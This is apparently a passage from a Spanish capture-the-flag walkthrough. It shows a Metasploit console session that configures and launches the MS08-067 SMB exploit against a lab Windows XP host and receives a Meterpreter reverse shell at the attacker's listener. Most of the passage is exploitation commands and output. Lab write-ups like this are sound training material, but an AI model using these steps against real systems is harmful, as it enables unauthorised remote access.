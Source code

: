 ```sh
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.136    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set LHOST 10.10.14.17
LHOST => 10.10.14.17
```

Con todo configurada lanzamos el comando `exploit` propio de metaexploit:

```sh
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> exploit

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.4:1032) at 2024-02-07 18:00:51 +0100

(Meterpreter 1)(C:\WINDOWS\system32) > help

# Uso help para averiguar que comandos puedo usar
```
